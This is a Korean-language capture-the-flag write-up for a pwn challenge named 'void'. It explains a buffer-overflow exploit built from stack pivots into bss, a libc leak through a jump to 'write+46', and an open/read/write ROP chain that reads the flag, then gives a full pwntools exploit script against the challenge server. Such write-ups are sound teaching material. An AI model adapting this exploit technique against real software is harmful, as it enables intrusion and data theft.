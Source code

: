 익스 코드를 봐도 내가 아니며 코드의 의도를 알 수 없기 때문에 흐름을 써보겠다.
`bof`가 조금 나고 카나리가 없다. 바이너리 pie가 없긴 한데 쓸만한 가젯이 없다. 일단 내가 보기엔 없어보였다. 그래서 `pop rdi` 문제처럼 `bss`에 `libc` 함수를 하나 만들어서 쓴다. 여러 가지가 가능할 거 같아서 어떤 함수를 만들까 고민했는데 간단하게 `write` 함수를 만들어서 `libc` 릭을 할려고 했다.
`write` 함수를 실행할 수 있다고 하자. 그럼 `libc` 함수를 출력해야 하므로 `rdi`, `rsi`, `rdx`를 변경해야 한다. `rdi`는 `main`에서 변조가 가능한데, 나머지 두 개가 문제다. `write` 내부를 보면 다음과 같은 로직이 있다.
```
0x0000000000114a44 <+36>:    mov    QWORD PTR [rsp+0x18],rdx
0x0000000000114a49 <+41>:    mov    QWORD PTR [rsp+0x10],rsi
0x0000000000114a4e <+46>:    mov    DWORD PTR [rsp+0x8],edi
0x0000000000114a52 <+50>:    call   0x90a70
0x0000000000114a57 <+55>:    mov    rdx,QWORD PTR [rsp+0x18]
0x0000000000114a5c <+60>:    mov    rsi,QWORD PTR [rsp+0x10]
0x0000000000114a61 <+65>:    mov    r8d,eax
0x0000000000114a64 <+68>:    mov    edi,DWORD PTR [rsp+0x8]
0x0000000000114a68 <+72>:    mov    eax,0x1
0x0000000000114a6d <+77>:    syscall
```

윗 부분과 아랫 부분이 어떤 행동을 하는지 감이 올 것이다. 여기서 `rdx`랑 `rsi`를 불러오는 `bss`에 값을 입력하고 `write + 46`으로 뛰면 `rsi`, `rdx`를 원하는대로 설정할 수 있다.
근데 이러면
`add dword ptr [rbp - 0x3d], ebx ; nop ; ret`
이 가젯을 4번 써야 한다. 정말 귀찮았다.

`libc` 릭이 끝났다. 이제 `pop rsi ; ret`과 `syscall` 가젯이 있다. 근데 `pop rdi ; ret` 가젯이 없다. 사실 있는데 필자가 이 문제를 8시간 째 푸는 중이라 정신이 없는 상태에서
`ROPgadget --binary libc.so.6 | grep "pop rdx ; ret"`
이렇게만 찾고 없어서 그냥 없다고 착각해버렸다. 그래서 `pop rdx` 가젯 없이 orw 코드를 짜야했다. `open`은 `rdx`를 안 쓰니까 그냥 하고, `bss`에 값을 의도적으로 넣어서 스택 이동을 생각해주면 `main`의 `read`를 방금 열은 `flag`파일을 읽는데 사용하고 다시 `ROP`를 할 수 있게 된다. `write`는 `rdx`가 필요해서
`0x000000000009133b : xor dh, 0x80 ; syscall`
이 가젯을 사용했다. `syscall` 실행 후에 바로 터지던데 어짜피 출력했으므로 상관없다.

`rbx` 컨트롤 트릭을 사용하는 문제는 원래 스택 사용이 복잡해서 코드가 더러운데, `pop rdx` 가젯 없이 익스한 관계로 `write` 트릭도 신경쓰느라 머리가 너무 앞

# exploit

```python
from pwn import *
from time import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./void')
p = remote('host1.dreamhack.games', 10710)
e = ELF('./void')
l = ELF('./libc.so.6')
bss = e.bss() + 0x1000
main = 0x4013C8
leave_ret = 0x40137e

def main_func(num : int, payload : bytes):
    sleep(0.5)
    p.sendline(str(num).encode())
    sleep(0.5)
    p.send(payload)

payload = b'a' * 0x70 + p64(bss + 0x3500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x2500) + p64(main + 0x32) + p64(bss + 0x1000) + p64(main + 8)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x1500) + p64(main + 0x32) + p64(bss + 0x3510) + p64(leave_ret)
main_func(1, payload)

payload = p64(main + 5) * 14 + p64(bss + 0x500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x30 + (p64(bss + 0x5d0) + p64(main + 0x32)) + (p64(bss + 0x5e0) + p64(main + 0x32)) + b'a' * 0x10 + (p64(bss + 0x600) + p64(main + 0x32)) + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = (l.sym['write'] + 46 - (0x00007f3085641117 - 0x7f308552c000)) & ((1 << 32) - 1)
# 0x000000000040121c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
payload2 = b'a' * 0x70 + p64(0x406488 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056e0) + p64(leave_ret)
main_func(1, payload)

payload1 = -0x19999999 & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406494 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056f0) + p64(leave_ret)
main_func(1, payload)

payload1 = (main - 0x99999999) & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406490 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x405710) + p64(leave_ret)
main_func(1, payload)

payload1 = 8
payload2 = b'a' * 0x70 + p64(0x4064a8 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x1c)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = e.got['read']
payload2 = b'a' * 0x70 + p64(0x4064a0 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x5c + p32(2 + 0x31337 - 1) + b'a' * 0x10 + p64(0x406480) + p64(leave_ret)
main_func(1, payload)
l.address = u64(p.recvn(8)) - l.sym['read']
print(hex(l.address))

pop_rax = l.address + 0x0000000000045eb0
pop_rdi = l.address + 0x000000000002a3e5
pop_rsi = l.address + 0x000000000002be51
syscall = l.address + 594838
xor_dh_80_syscall = l.address + 0x000000000009133b
ret = 0x000000000040101a

# flag : 0x4074c0
payload = p64(bss + 0x2510) + p64(pop_rdi) + p64(0x4064b8) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall) + p64(main + 0x50) + b'a' * 0x20 + (b'flag' + b'\x00' * 4) + p64(0x406450) + p64(leave_ret)
main_func(1, payload)

payload = p64(pop_rdi) + p64(2) + p64(pop_rsi) + p64(0x4074c0) + p64(pop_rax) + p64(1) + p64(xor_dh_80_syscall) + b'a' * 0x38 + p64(0x405fb0 - 8) + p64(leave_ret)
main_func(1, payload)
p.interactive()
```